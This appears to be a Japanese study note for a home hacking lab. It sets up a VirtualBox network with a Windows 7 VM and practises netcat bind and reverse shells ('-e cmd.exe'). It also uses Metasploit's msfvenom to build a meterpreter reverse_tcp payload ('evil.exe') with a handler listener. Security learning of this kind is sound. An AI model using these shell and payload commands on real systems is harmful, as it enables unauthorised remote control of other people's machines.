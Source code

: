 # ハッキング・ラボ メモ

## Windowsハッキング

- VirtualBox

  ```bash
  # /etc/vbox/networks.conf ファイルを新規作成。以下を記入
  * 10.0.0.0/24
  ```

  - ホストネットワークマネージャ > 作成
    - アダプター
      - IPv4: 10.0.0.1
      - IPv4マスク: 255.255.255.0
    - DHCPサーバ
      - サーバアドレス: 10.0.0.100
      - サーバマスク: 255.255.255.0
        - アドレス下限: 10.0.0.101
        - アドレス上限: 10.0.0.254
- [Windows7試用ovaファイル](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
  - 選択オプション
    - Virtual Machines: IE8 on Win7(x86)
    - VM platform: VirtualBox

```bash
# Windows側
nc.exe -lvp 5555
```

- -l: 待ち受け
- -v: 詳細表示
- -p: ポート番号指定

```bash
netstat -an
```

- -a: すべての接続を表示
- -n: 名前解決しない。サービス名解決しない。

```bash
# Windows側
nc.exe -lvp 5555 -e cmd.exe
# ホスト側
nc [target IP] 5555
```

### リバースシェル

```bash
# ホスト側
nc -lvp 5555
# Windows側
nc.exe [host IP] 5555 -e cmd.exe
```

### Metasploit Framework

- 調査、侵入、攻撃、バックドアの設置・接続。サーバ侵入の一連の攻撃をサポート
- 実践で使われる場面は少ない

```bash
msfconsole

show exploits
```

- Exploitのランク
  - manual < low < average < normal < good < great < excellent
  - excellentが最も望ましく、システムをクラッシュさせることなく任意のコマンドを実行できる

```bash
search type:payload reverse_tcp platform:windows

# TCP型リバースシェルを作成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 -f exe -o ./evil.exe
# -p: ペイロードのパス
# -f: 出力ファイルの形式
# -o: 出力ファイルのパス
# LHOST: ペイロードのオプション。接続先を指定

# リバースシェルを待ち受ける
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ホストIP]
# evil.exeをWindows側で起動した後
# リバースシェルを確立する
exploit
```

```bash
# Meterpreterプロンプトで使用可能
pwd, ls, cd
```
